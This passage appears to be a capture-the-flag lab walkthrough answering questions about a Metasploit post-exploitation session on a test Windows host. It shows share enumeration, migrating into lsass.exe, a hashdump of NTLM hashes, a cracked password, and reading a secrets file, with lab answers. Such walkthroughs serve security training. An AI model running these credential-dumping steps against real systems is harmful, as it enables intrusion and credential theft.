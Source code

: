	CTRL+Z
	Background session 1? [y/N]
msf6 exploit(windows/smb/psexec) > use post/windows/gather/enum_shares
msf6 post(windows/gather/enum_shares) > set SESSION 1
msf6 post(windows/gather/enum_shares) > run

[*] Running module against ACME-TEST (10.10.113.225)
[*] The following shares were found:
[*]     Name: SYSVOL
[*]     Path: C:\Windows\SYSVOL\sysvol
[*]     Remark: Logon server share
[*]     Type: DISK
[*]
[*]     Name: NETLOGON
[*]     Path: C:\Windows\SYSVOL\sysvol\FLASH.local\SCRIPTS
[*]     Remark: Logon server share
[*]     Type: DISK
[*]
[*]     Name: speedster
[*]     Path: C:\Shares\speedster
[*]     Type: DISK
[*]
[*] Post module execution completed
What is the NTLM hash of the jchambers user?
```	
meterpreter > ps | grep lsass.exe
Filtering on 'lsass.exe'
Process List
============
 PID  PPID  Name   	Arch  Session  User             	Path
 ---  ----  ----   	----  -------  ----             	----
 776  648   lsass.exe  x64   0    	NT AUTHORITY\SYSTEM  C:\Windows\System32\lsass.exe

meterpreter > migrate 776
[*] Migrating from 564 to 776...
[*] Migration completed successfully.

meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a9ac3de200cb4d510fed7610c7037292:::
ballen:1112:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
jchambers:1114:aad3b435b51404eeaad3b435b51404ee:69596c7aa1e8daee17f8e78870e25a5c:::
jfox:1115:aad3b435b51404eeaad3b435b51404ee:c64540b95e2b2f36f0291c3a9fb8b840:::
lnelson:1116:aad3b435b51404eeaad3b435b51404ee:e88186a7bb7980c913dc90c7caa2a3b9:::
erptest:1117:aad3b435b51404eeaad3b435b51404ee:8b9ca7572fe60a1559686dba90726715:::
ACME-TEST$:1008:aad3b435b51404eeaad3b435b51404ee:c6c85041ee383915bd541ce40b508ff0:::
```
What is the cleartext password of the jchambers user?
	
	Trustno1
Where is the "secrets.txt"  file located? (Full path of the file)
```
meterpreter > search -f secrets.txt
ound 1 result...
=================

Path                                                        	Size (bytes)  Modified (UTC)
----                                                        	------------  --------------
c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt  35        	2021-07-30 08:44:27 +0100
What is the Twitter password revealed in the "secrets.txt" file?
	meterpreter > cat "c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt"
	
My Twitter password is KDSvbsw3849!
```